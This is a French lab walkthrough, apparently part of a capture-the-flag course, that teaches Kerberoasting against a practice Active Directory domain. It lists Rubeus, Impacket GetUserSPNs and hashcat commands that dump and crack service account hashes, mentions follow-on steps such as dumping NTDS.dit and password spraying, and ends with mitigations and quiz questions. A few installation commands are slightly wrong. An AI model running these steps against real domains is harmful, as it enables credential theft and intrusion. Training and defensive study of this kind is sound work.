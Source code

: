### KERBEROASTING ("Rotissâge")

<img src="https://www.shopenseigne.fr/wp-content/uploads/2020/05/enseigne-lumineuse-double-face-rotisserie-ref-06-shop-enseigne-production-13001-marseille-4.jpg" width="30%" height="30%">

- Dans cette phase, nous couvrirons l'une des attaques Kerberos les plus populaires : Le Kerberoasting.  
- Le Kerberoasting permet à un utilisateur de demander un ticket de service pour tout service avec un SPN enregistré, puis d'utiliser ce ticket pour déchiffrer le mot de passe du service.   
- Si le service a un SPN enregistré, il peut être Kerberoastable, mais le succès de l'attaque dépend de la force du mot de passe et s'il est traçable ainsi que des privilèges du compte de service craqué.  
- Pour énumérer les comptes Kerberoastable, je suggérerais **un outil comme BloodHound** pour trouver tous les comptes "Kerberoastables", il vous permettra de voir quel type de comptes vous pouvez kerberoast s'ils sont administrateurs de domaine, et quel type de connexions ils ont avec le reste du domaine.  
C'est un excellent outil pour trouver des comptes à cibler. 
- Si vous le souhaitez vous pouvez l'exécuter pour explorer le domaine dans un premier temps

Afin d'effectuer l'attaque, nous utiliserons à la fois Rubeus et Impacket afin que vous compreniez les différents outils disponibles pour Kerberoasting. 
Il existe d'autres outils tels que kekeo et Invoke-Kerberoast, mais je vous laisse faire vos propres recherches sur ces outils.

Pour vous faciliter la tâche, **Rubeus est déjà mis sur la machine pour vous**. 
il se trouve dans le dossier de téléchargements.


### **Kerberoasting avec Rubeus** 

1.) ```cd downloads``` - accédez au répertoire dans lequel se trouve Rubeus

2.) ```Rubeus.exe kerberoast``` -  Cela videra le hachage Kerberos de tous les utilisateurs kerberoastable

<img src="https://imgur.com/XZegVqf.png"/>

copiez le hash sur votre machine attaquante et placez-le dans un fichier .txt afin que nous puissions le cracker avec hashcat

Nous utiliserons une liste de mots rockyou modifiée afin d'accélérer le processus, téléchargez-la ici :
https://raw.githubusercontent.com/Cryilllic/Active-Directory-Wordlists/master/Pass.txt

3.) ```hashcat -m 13100 -a 0 hash.txt Pass.txt``` - maintenant cracker ce hash


### **Méthode 2 - Impacket**

**Installation d'Impacket**

Les versions d'Impacket sont instables depuis la 0.9.20. Je suggère d'avoir une installation d'Impacket < 0.9.20

1.) ```cd /opt``` -  accédez à votre répertoire préféré pour enregistrer les outils dans

2.) téléchargez le package précompilé à partir de ```https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_19```

3.) ```cd Impacket-0.9.1``` - accédez au répertoire impacket

4.) ```pip install requirements.txt``` - cela installera toutes les dépendances nécessaires

**Kerberoasting avec Impacket**

1.) ```cd /usr/share/doc/python3-impacket/examples/ - accédez à l'emplacement de GetUserSPNs.py```

2.) ```sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip MACHINE_IP -request``` - cela videra le hachage Kerberos pour tous les comptes kerberoastable qu'il peut trouver sur le domaine cible, comme le fait Rubeus.   
Cependant, cela ne doit pas nécessairement être sur la machine cible et peut être effectué à distance.

3.) ```hashcat -m 13100 -a 0 hash.txt Pass.txt``` -  cracker ce hachage

**Que peut faire un compte de service ?**

- Après avoir déchiffré le mot de passe du compte de service, il existe différentes manières d'exfiltrer des données ou de collecter un butin selon que le compte de service est un administrateur de domaine ou non.  
- Si le compte de service est un administrateur de domaine, vous disposez d'un contrôle similaire à celui d'un ticket Golden/Silver et pouvez désormais collecter un butin tel que le dumping du NTDS.dit.  
- Si le compte de service n'est pas un administrateur de domaine, vous pouvez l'utiliser pour vous connecter à d'autres systèmes et faire pivoter ou escalader ou vous pouvez utiliser ce mot de passe piraté pour pulvériser contre d'autres comptes d'administrateur de service et de domaine
- De nombreuses entreprises peuvent réutiliser des mots de passe identiques ou similaires pour leurs utilisateurs administrateurs de service ou de domaine.   
- Si vous participez à un test d'intrusion professionnel, sachez comment l'entreprise veut que vous montriez le risque la plupart du temps, elle ne veut pas que vous exfiltrez des données et vous fixera un objectif ou un processus à atteindre afin de montrer le risque à l'intérieur de l'évaluation.

**Mitigation : Défendre la forêt**

Se prémunir du Kerberoasting :

- Opter pour Mots de passe de service forts - Si les mots de passe du compte de service sont forts, le kerberoasting sera inefficace
- N'autorisez pas de comptes de service comme administrateurs de domaine - Les comptes de service n'ont pas besoin d'être des administrateurs de domaine, kerberoasting ne sera pas aussi efficace si vous ne faites pas des comptes de service comme administrateurs de domaine.

**Répondre aux questions ci-dessous**

Qu'est-ce que le mot de passe HTTPService ?
```
reponse
```
Qu'est-ce que le mot de passe SQLService ?
```
reponse
```

